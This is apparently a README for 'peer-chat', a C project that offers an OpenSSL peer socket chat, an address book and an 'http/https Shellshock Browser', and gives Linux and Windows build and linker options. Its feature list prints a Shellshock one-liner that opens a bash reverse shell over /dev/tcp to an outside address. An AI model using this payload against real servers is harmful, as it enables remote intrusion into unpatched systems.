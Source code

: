 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    the Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"

# building
On Linux: gcc main.c -o sslchat -lssl -lcrypto -pthread -std=gnu99

On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99
